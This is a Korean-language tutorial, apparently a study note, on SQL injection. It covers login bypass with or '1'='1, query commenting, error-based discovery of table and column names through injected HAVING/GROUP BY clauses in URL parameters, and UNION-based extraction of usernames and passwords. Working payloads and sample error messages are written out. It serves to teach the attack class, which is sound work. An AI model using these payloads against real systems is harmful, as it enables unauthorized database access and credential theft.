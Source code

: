 # 🔍  SQL Injection
> SQL Injection이란 말그대로 응용 프로그램, 웹프로그래밍의 보안성 허점을 의도적으로 이용하는 방법으로, 개발자가 의도하지 않은 SQL쿼리를 특정한 방법으로 조작하여 데이터베이스를 악의적인 목적으로 조작하는 기술이다.

## ❓ 논리적 에러를 이용한 SQL Injection

논리적 에러를 이용한 방법을 설명하기위해 쿼리문을 이용하여 설명해보려고 한다.

```sql
SELECT NO, NAME, EMAIL
FROM USER
WHERE EMAIL = 'example@domain.com'
	AND PASSWORD = 12345678;
```
위와 같이 EMAIL과 PASSWORD를 입력받아 사용자의 정보를 가져오는 로그인 쿼리는

HTML의 FORM태그에서 입력받은 값을 통해 쿼리문이 실행되어 리턴된 결과를 서버로 전달한다.

논리적 에러는 EMAIL과 PASSWORD를 입력받는 과정에서의 입력값 조작을 통해 주로 이루어진다.

```sql
SELECT NO, NAME, EMAIL
FROM USER
WHERE EMAIL = 'example@domain.com'
	AND PASSWORD = 12345678 or '1'='1';
```

![form](https://i.imgur.com/d4R8sYN.png)
위와 같이 입력값의 검증 과정을 or '1'='1' 을 삽입하하는것으로 `WHERE`절의 조건을 항상 `True`로 판별되게 만드는것이다.

`or` 을 이용한 조작 외에도 `--`와 `#`을 이용한 **쿼리 주석화** 방법도 있다.

## 👁️‍🗨️ 데이터 알아내기

타겟이 되는 시스템의 주요 데이터를 탈취하기 위한 방법으로 에러 메세지를 통해 테이블의 구조를 추측하고
컬럼의 이름, 컬럼의 자료형등을 알아낸후 다음번에 설명할 `UNION` 연산자를 통해 테이블 전체를 알아 낼 수 있다.

### 에러 발생시키기
> 첫번째로는 공격포인트를 찾기위해 `Having`과 `group by` 구문을 사용해 에러를 유발시켜
사용중인 데이터 베이스에 관한 기본적인 메타 정보를 알아내는 과정을 말한다.


`group by 없이 having절을 사용하는 방법으로 일부러 에러를 유발시킨 후 메세지를 유추하여 테이블 정보를 알아낸다`

컨트롤러에서 게시물을 확인하기위한 SQL 쿼리가 다음과 같다고 가정하자.

```sql
SELECT *
FROM Board
WHERE idx = ?
```

이 쿼리의 실행이 다음과같은 URL의 요청으로 이루어진다고 했을때

`www.example.com/read?idx=?`

공격자는 에러 메세지를 유발하기 위해 다음과 같은 요청을 한다

`www.example.com/read?idx=1 'having 1=1--`

위 URL의 에러 로그는 다음과 같다.

![캡처](https://i.imgur.com/FOhluXJ.png)

에러 로그를 통해 테이블 이름이 member이고 idx가 첫번째 컬럼이라는걸 알 수 있는것이다.

이후 group by와 having을 함께 쓰는 방법을 사용하면 다른 열도 알아낼 수 있다.

`www.example.com/read?idx=1 'group by idx having 1=1--`

![캡처](https://i.imgur.com/ENuG5bd.png)

같은 방식으로 `sum()`을 이용한 각 컬럼의 자료형도 알아낼 수 있다.

### UNION BASED
UNION을 이용해 공격자가 의도한 쿼리를 뒤에 덧붙여 사용하는것으로 에러 발생시키기 과정에서 수집한 정보들을 이용해 내부 정보를 갈취한다.

```sql
' union select sum(id) from user--'
# user 테이블의 데이터 타입 알아내기
```


아래의 쿼리는 a보다 큰 **username중 최소의 값을 가져오는 쿼리이다. 그 결과를 integer형식으로 변환**하기 위해 실행되지만 이후 에러가 발생한다.

```sql
' union select min(username), 1,1,1 from users where username > 'a'--'
```

에러 메세지는 다음과 같다.

```
Microsoft OLE DB Provider for ODBC Drivers (0x80040E07)
 [Microsoft][ODBC SQL Server Driver][SQL Server]varchar 값 'admin'을(를) int 데이터 형식의 열로 변환하는 중 구문 오류가 발생했습니다.
 /process_login.asp, line 34
 ```

 이처럼 username 과 비교되는 a의 값을 admin으로 변경하면 다음 결과, 그 다음 결과를 순차적으로 알 수 있다.

같은 방식으로 where절에 위에서 얻은 id값을 UNION이 들어간 쿼리에 대입한다면 패스워드를 알아내는것도 가능한것이다.
